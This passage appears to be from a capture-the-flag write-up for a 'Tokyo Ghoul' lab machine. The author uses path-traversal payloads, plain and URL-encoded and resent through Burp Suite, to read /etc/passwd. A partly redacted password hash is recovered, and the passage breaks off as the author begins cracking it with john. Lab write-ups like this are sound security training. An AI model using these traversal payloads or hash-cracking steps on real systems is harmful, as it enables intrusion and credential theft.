 Nothing happen! I try with other payloads and this one return another thing instead of blank space:

```
../../../../../../../etc/passwd
```

![Untitled](/assets/Tokyo%20Ghoul%20images/Untitled%209.png)

Then, I encode the payload with **URL-encode** and use **Burpsuite** to re-send the request:

```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2Fpasswd
```

![Untitled](/assets/Tokyo%20Ghoul%20images/Untitled%2010.png)

Scroll down and I get the user’s creds:

```
[REDACTED]:$6$Tb/euwmK$OXA.[REDACTED]..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:
```

Then I paste it into a text file called `creds.txt` and use `john` to crack the hash-password:
